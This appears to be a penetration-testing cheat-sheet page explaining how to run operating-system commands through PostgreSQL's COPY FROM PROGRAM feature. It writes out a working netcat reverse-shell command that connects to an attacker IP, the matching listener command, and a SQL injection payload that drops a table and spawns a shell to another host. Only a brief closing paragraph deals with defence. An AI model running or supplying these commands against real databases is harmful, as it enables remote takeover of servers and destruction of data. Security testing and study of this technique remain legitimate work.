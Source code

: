 # PostgreSQL

To execute system commands on Linux or Windows using PostgreSQL, you can leverage the `PROGRAM` parameter in conjunction with the `COPY` command. Here's a step-by-step explanation of how to set up and use this method:

#### Command Execution Overview

The process starts with the creation of a table designed to store the output of the commands you execute. This can be a temporary or permanent table based on your requirements. Here, we'll create a permanent table called `shell`.

**Step 1: Create a Table to Capture Output**

First, create a table where the output of the executed commands will be stored. This table will have a single column to hold text data.

```sql
CREATE TABLE shell(output text);
```

**Step 2: Using the PROGRAM Parameter to Execute Commands**

With the table ready, you can now use the `PROGRAM` parameter within the `COPY` command to execute system-level commands. This example demonstrates how to set up a reverse shell, which allows you to execute commands remotely on the server where the PostgreSQL database is running.

```sql
COPY shell FROM PROGRAM 'rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.0.0.1 1234 > /tmp/f';
```

Here's a breakdown of the command sequence:

* `rm /tmp/f;`: Removes any existing file named `/tmp/f`.
* `mkfifo /tmp/f;`: Creates a named pipe `/tmp/f`. Named pipes allow for temporary file-like communication between processes.
* `cat /tmp/f | /bin/sh -i 2>&1`: This part sets up a reverse shell. It reads from the named pipe, executes commands using the shell (`/bin/sh -i`), and redirects both stdout and stderr to the pipe.
* `nc 10.0.0.1 1234 > /tmp/f`: This uses `netcat` (nc) to connect back to the attacker's machine listening on IP `10.0.0.1` and port `1234`. Output from the shell (connected via `nc`) is redirected back into `/tmp/f`, thus maintaining a continuous shell session.

**Step 3: Set Up a Listener on the Attacking Machine**

Before running the `COPY` command, ensure that you've set up a listener on the attacking machine to accept the incoming connection from the reverse shell:

```bash
nc -lvp 1234
```

This command tells `netcat` to listen on port `1234`, verbosely displaying output and keeping the port open for multiple connections if needed.

#### Security Considerations

Executing system commands via SQL in a database is a significant security risk and typically indicates that your system is already compromised or misconfigured to allow such actions. Always ensure that database permissions are strictly managed and that using features like `COPY FROM PROGRAM` is disabled unless absolutely necessary and safeguarded by robust security measures.



Example:

{% code overflow="wrap" %}
```sql
id=';DROP TABLE IF EXISTS commandexec; CREATE TABLE commandexec(data text);COPY commandexec FROM PROGRAM '/usr/bin/nc.traditional -e /bin/sh 192.168.1.2 4444';--
```
{% endcode %}

#### Resource(s):

* [https://medium.com/r3d-buck3t/command-execution-with-postgresql-copy-command-a79aef9c2767](https://medium.com/r3d-buck3t/command-execution-with-postgresql-copy-command-a79aef9c2767)
